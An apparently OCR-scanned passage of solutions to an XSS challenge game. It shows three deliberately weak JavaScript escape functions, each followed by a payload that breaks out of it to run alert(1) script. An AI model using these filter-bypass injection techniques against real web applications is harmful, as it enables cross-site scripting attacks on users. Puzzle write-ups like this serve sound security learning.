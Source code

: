 ```js
      "AL": ((year) => year < 1846 ? "Tuscaloosa" : "Montgomery"),
      "AK": "Juneau",
      "AR": "Phoenix",
      // etc.
    },
  };
 
  function capitalOf(country, stateOrProvinceName, year) {
    var capital = capitals[country][stateOrProvinceName];
    if (typeof capital === 'function') {
      capital = capital(year);
    }
    return capital
  }

  var inputs = (s || "").split(/#/g);
  return '<b>'+capitalOf(inputs[0], inputs[1], inputs[2])+'</b>';
}
```
Payload: `constructor#assign#<script>alert(1)</script>`

## Quine
> TODO

## Entities
```js
// submitted by securityMB
function escape(s) {
  function htmlentities(s) {
    return s.replace(/[&<>"']/g, c => `&#${c.charCodeAt(0)};`)
  }
  s = htmlentities(s);
  return `<script>
  var obj = {};
  obj["${s}"] = "${s}";
</script>`;
}
```
Payload: `];alert(1)//\`

## %level%
```js
// submitted anonymously
function escape(s) {
    const userInput = JSON.stringify(s).replace(/[<]/g, '%lt').replace(/[>]/g, '%gt');
    const userTemplate = '<script>let some = %userData%</script>';
    return userTemplate.replace(/%userData%/, userInput);
}
```
Payload: ```$'$`alert(1);//``` thank to `https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/replace?retiredLocale=vi`







